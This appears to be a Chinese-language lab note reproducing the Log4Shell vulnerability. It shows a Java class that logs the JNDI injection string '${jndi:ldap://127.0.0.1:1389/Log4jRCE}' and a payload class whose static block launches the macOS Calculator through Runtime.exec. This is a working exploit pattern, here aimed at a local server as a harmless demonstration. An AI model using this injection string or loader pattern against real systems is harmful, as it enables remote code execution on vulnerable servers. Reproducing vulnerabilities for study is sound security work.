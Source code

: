 ![image-20211210205406063](log4jrce/image-20211210205406063.png)

### 新建两个class

``` java
package org.example;
/*
 *    @Author: Err0r
 *    @date : 2021/12/10
 *    @file : log4j
 */

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/Log4jRCE}");
    }
}
```

``` java
package org.example;
/*
 *    @Author: Err0r
 *    @date : 2021/12/10
 *    @file : Log4jRCE
 */

public class Log4jRCE {
    static {
        try {
            String var0 = "open /System/Applications/Calculator.app";
            Runtime.getRuntime().exec(var0);
        } catch (Exception var1) {
            var1.printStackTrace();
        }
    }
}
```
